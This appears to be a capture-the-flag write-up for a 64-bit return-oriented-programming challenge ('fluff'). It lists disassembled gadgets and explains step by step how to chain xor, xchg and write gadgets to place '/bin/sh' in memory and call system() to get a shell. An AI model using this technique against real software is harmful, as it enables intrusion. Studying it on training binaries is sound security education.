 # Fluff 64 bit

The problem told us this is similar to write4 so we know that the buffer overflow will occur at 40 characters and there should still be a pwnme function. Looking at this in a disassembler (I used Radare2 but you can use whatever you like) we can see that we still have usefulFunction which gives us a system() entry in the plt. But now we have questionableGadgets instead of usefulGadgets.

### questionableGadgets:
```Assembly
  400820:   41 5f                   pop    r15  
  400822:   4d 31 db                xor    r11,r11
  400825:   41 5e                   pop    r14  
  400827:   bf 50 10 60 00          mov    edi,0x601050
  40082c:   c3                      ret    
  40082d:   41 5e                   pop    r14  
  40082f:   4d 31 e3                xor    r11,r12
  400832:   41 5c                   pop    r12  
  400834:   41 bd 60 40 60 00       mov    r13d,0x604060
  40083a:   c3                      ret    
  40083b:   bf 50 10 60 00          mov    edi,0x601050
  400840:   4d 87 d3                xchg   r11,r10
  400843:   41 5f                   pop    r15  
  400845:   41 bb 50 20 60 00       mov    r11d,0x602050
  40084b:   c3                      ret    
  40084c:   41 5f                   pop    r15  
  40084e:   4d 89 1a                mov    QWORD PTR [r10],r11
  400851:   41 5d                   pop    r13  
  400853:   41 5c                   pop    r12  
  400855:   45 30 22                xor    BYTE PTR [r10],r12b
  400858:   c3                      ret    
  400859:   0f 1f 80 00 00 00 00    nop    DWORD PTR [rax+0x0]

```

We will use the same method that was used to solve write4. Call system() with '/bin/sh', all we need to do that is a gadget that can write to somewhere in memory and pop gadgets to go with it.

#### writeGadget:
```Assembly
  40084e:   4d 89 1a                mov    QWORD PTR [r10],r11
  400851:   41 5d                   pop    r13  
  400853:   41 5c                   pop    r12  
  400855:   45 30 22                xor    BYTE PTR [r10],r12b
  400858:   c3                      ret
```

This gadget is a good candidate for writing to memory, we will call it the writeGadget. We can fill r13 with junk and zero out r12. r12 must be zero'ed out so that the xor instruction will not affect the data we just wrote. Luckily since we are using gets() to exploit this program we can write null bytes with no issue.

Now we just need to find gadgets to put the contents we wnat in r10 and r11... sadly there are no easy pop r10 or pop r11 gadgets. Now things start to get difficult and we have to use things like xchg and xor.

The gadget below means that as long as we can find a way to write to r11 or r10 then we will be able to xchg it with the other and write to that gadget again. So we only need to find one more gadget that can write to either r10 or r11.

#### xchgGadget:
```Assembly
  400840:   4d 87 d3                xchg   r11,r10
  400843:   41 5f                   pop    r15  
  400845:   41 bb 50 20 60 00       mov    r11d,0x602050
  40084b:   c3                      ret
```

Using the three gadgets below we can write to r11. We want to write the desired value of r10 to r11 first so that we can use the xchg gadget to get r10 with it's desired value. Referencing the writeGadget above, r10 must have a value of somewhere in memory that is writable. A good place to look for that is the got section because it has to be writable in order for the got to accomplish its function. I chose 0x6010d0, just some random spot in memory not too far after the got but far enough that it shouldn't mess with anything. If you are having trouble finding the got section in radare2 use the command :iS which will give you addresses of the sections and then use the seek command to go to where it says the got section is. 

#### popR12:
```Assembly
  400832:   41 5c                   pop    r12  
  400834:   41 bd 60 40 60 00       mov    r13d,0x604060
  40083a:   c3                      ret
```

#### clearR11:
```Assembly
  400822:   4d 31 db                xor    r11,r11
  400825:   41 5e                   pop    r14  
  400827:   bf 50 10 60 00          mov    edi,0x601050
  40082c:   c3                      ret
```

#### xorR11R12:
```Assembly
  40082f:   4d 31 e3                xor    r11,r12
  400832:   41 5c                   pop    r12  
  400834:   41 bd 60 40 60 00       mov    r13d,0x604060
  40083a:   c3                      ret
```

##### Write to r11:
1. Use the popR12 gadget to write 0x6010d0 (where we want '/bin/sh\x00' to be in memory) into r12.
2. Use clearR11 gadget to zero out r11 (anything xor'ed with itself is 0)
3. Use xorR11R12 gadget to write r12's contents to r11. (any xor'ed with 0 is itself)
   - Also thinking ahead now is a good time to write to r12 what we want in r11 ('/bin/sh\x00')

Now r11 has the value we want in r10 to perform our write.

Use the xchgGadget to put r11's contents in r10.

Repeat the write to r11 process skipping past the first step because the side effect of step 3 was basically step 1.

Now both r11 and r10 should have the values they need to call writeGadget. Don't forget to put junk on the stack for the two pop's after the mov instruction.

All that is left is calling system('/bin/sh\x00') using the address of the entry of system in the plt.

To call system with an argument we need to put the argument in rdi. There are no pop rdi instructions in questionableGadgets however using ropper or any ropping tool you should be able to find one. (0x4008c3) You can find where you should put your arguments to functions in a table at the bottom of this [wikipedia article](https://en.wikipedia.org/wiki/X86_calling_conventions#cite_note-AMD-24), it is based off architecture and compiler. Since you were given the binary and not the source, everyone should be the same and use rdi for this challenge.

Pop the data segment (0x6010d0) into rdi and put system_plt entry on the stack and you will call system with 'bin/sh\x00' giving you a shell to cat the flag. You could repeat the process above and instead of calling system with 'bin/sh\x00' call it with 'cat flag.txt\x00'.


